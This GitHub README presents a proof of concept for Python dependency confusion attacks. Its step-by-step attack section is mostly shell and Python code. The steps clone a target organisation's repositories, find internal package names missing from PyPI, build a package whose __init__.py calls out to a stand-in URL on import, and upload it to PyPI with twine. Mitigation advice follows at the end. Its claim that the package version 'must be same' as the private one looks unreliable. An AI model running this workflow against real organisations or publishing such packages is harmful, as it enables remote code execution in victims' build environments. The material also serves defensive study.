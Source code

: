 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
<h1 align="center">Python Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>

# Introduction

Dependency confusion is a supply chain vulnerability that arises when package managers inadvertently install malicious packages from public repositories instead of intended private ones. This issue is particularly prevalent in Python's package management system, where tools like `pip` may prioritize public packages over private ones if not properly configured. Exploiting this behavior can lead to severe consequences, including remote code execution (RCE) on target systems.

# Attack Overview

The typical workflow of a dependency confusion attack involves the following steps:

1. **Identifying Target Dependencies**: Attackers search for `requirements.txt` files in public repositories to identify internal package names used by organizations.

2. Verifying Package Availability: For each identified package, attackers check if it exists on the public Python Package Index [(PyPI)](https://pypi.org/). This can be automated using tools like `httpx` to detect 404 responses, indicating the package is absent from PyPI.

3. **Publishing Malicious Packages**: Attackers create and publish malicious packages on PyPI using the same names as the internal packages. These malicious packages can be designed to execute arbitrary code upon installation.

4. **Triggering Installation**: When the target organization installs dependencies without strict index configurations, `pip` may fetch the malicious package from PyPI, leading to code execution within the organization's environment.

# Proof of Concept (PoC)

The repository provides a PoC demonstrating this attack vector:

- **Cloning Target Repositories**: Utilize tools like [ghorg](https://github.com/gabrie30/ghorg) to clone all repositories from a target organization.

```bash
ghorg clone <target_organization> -t <personal_access_token>
```
- **Extracting Dependencies**: Search for `requirements.txt` files and extract package names.

```bash
find . -type f -name requirements.txt | \
xargs -n1 -I{} cat {} | \
sed 's/[><=~!].*//' | \
tr -d '[:space:]' | \
sort -u | \
xargs -I{} sh -c 'curl -s -o /dev/null -w "%{http_code} https://pypi.org/project/{}/\n" https://pypi.org/project/{}/' | \
grep "^404"
```
- **Creating Malicious Packages**: For each vulnerable package:
```bash
$ mkdir <package-name>
$ cd <package-name>
$ mkdir <package-name>
$ cd <package-name>
$ touch __init__.py
```
- **Insert malicious code into** `__init__.py`:
```bash
import requests
# Example: Send a request to a monitoring URL
requests.get("https://example.com/notify")
```
- Save this file and back `cd..` from the directory
- **Create** `setup.py` with appropriate metadata:

**Note**: The version of package and the version of the vulnerable package must be same
```bash
from setuptools import setup, find_packages

setup(
    name="<package-name>",
    version="0.0.1",
    author="Attacker Name",
    author_email="attacker@example.com",
    description="Malicious package for dependency confusion attack",
    packages=find_packages(),
    install_requires=['requests'],
)
```
- Build and upload the package to PyPI:
```bash
$ python3 setup.py sdist bdist_wheel
$ pip3 install twine
$ twine upload dist/*
```
# Mitigation Strategies

To protect against dependency confusion attacks:

- **Configure Package Indexes**: Use `--index-url` and `--extra-index-url` options in `pip` to prioritize private repositories over public ones.

- **Implement Package Scopes**: Employ tools like `pip`'s upcoming features (as per [PEP 708](https://peps.python.org/pep-0708/)) to define trusted sources for specific packages.

- **Monitor and Audit Dependencies**: Regularly scan dependencies for anomalies and ensure that all internal packages are also present in private repositories to prevent unauthorized public versions.

- **Use Dependency Management Tools**: Utilize tools like [Thoth](https://developers.redhat.com/articles/2021/12/21/prevent-python-dependency-confusion-attacks-thoth) to manage and resolve dependencies securely.

# Conclusion

Dependency confusion poses a significant risk to software supply chains. By understanding the attack vectors and implementing robust dependency management practices, organizations can mitigate the threat and secure their development environments.

### Connect me

If you have any queries, you can always contact me on [Linkedin](https://www.linkedin.com/in/anindyaghoshal/)

